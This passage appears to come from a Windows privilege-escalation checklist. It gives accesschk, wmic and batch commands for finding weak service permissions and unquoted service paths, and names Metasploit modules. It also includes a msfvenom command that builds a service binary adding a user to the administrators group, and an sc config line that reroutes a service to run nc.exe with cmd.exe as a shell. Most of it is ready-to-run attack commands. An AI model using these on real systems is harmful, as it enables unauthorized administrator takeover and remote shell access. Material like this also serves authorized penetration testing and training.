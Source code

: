 
		# using accesschk.exe
		accesschk.exe -ucqv <Service_Name>
		accesschk.exe -uwcqv "Authenticated Users" * /accepteula
		accesschk.exe -uwcqv %USERNAME% * /accepteula
		accesschk.exe -uwcqv "BUILTIN\Users" * /accepteula 2>nul
		accesschk.exe -uwcqv "Todos" * /accepteula ::Spanish version
		
		# using msf
		exploit/windows/local/service_permissions
		```
	- [ ] Unquoted Service Path
		```powershell
		wmic service get name,displayname,pathname,startmode |findstr /i "Auto" | findstr /i /v "C:\Windows\" |findstr /i /v ""
		wmic service get name,displayname,pathname,startmode | findstr /i /v "C:\Windows\system32\" |findstr /i /v "" #Not only auto services

		for /f "tokens=2" %%n in ('sc query state^= all^| findstr SERVICE_NAME') do (
			for /f "delims=: tokens=1*" %%r in ('sc qc "%%~n" ^| findstr BINARY_PATH_NAME ^| findstr /i /v /l /c:"c:\windows\system32" ^| findstr /v /c:""""') do (
				echo %%~s | findstr /r /c:"[a-Z][ ][a-Z]" >nul 2>&1 && (echo %%n && echo %%~s && icacls %%s | findstr /i "(F) (M) (W) :\" | findstr /i ":\\ everyone authenticated users todos %username%") && echo.
			)
		)
		
		gwmi -class Win32_Service -Property Name, DisplayName, PathName, StartMode | Where {$_.StartMode -eq "Auto" -and $_.PathName -notlike "C:\Windows*" -and $_.PathName -notlike '*'} | select PathName,DisplayName,Name
		
		# find them using msf 
		exploit/windows/local/trusted_service_path
		
		# generate service binary with msfvenom
		msfvenom -p windows/exec CMD="net localgroup administrators username /add" -f exe-service -o service.exe
		```
	- [ ] Change service binary path
		```powershell
		# if the group "Authenticated users" has SERVICE_ALL_ACCESS
		# it can modify the binary path
		
		# bind shell
		sc config <Service_Name> binpath= "C:\nc.exe -nv 127.0.0.1 9988 -e C:\WINDOWS\System32\cmd.exe"
		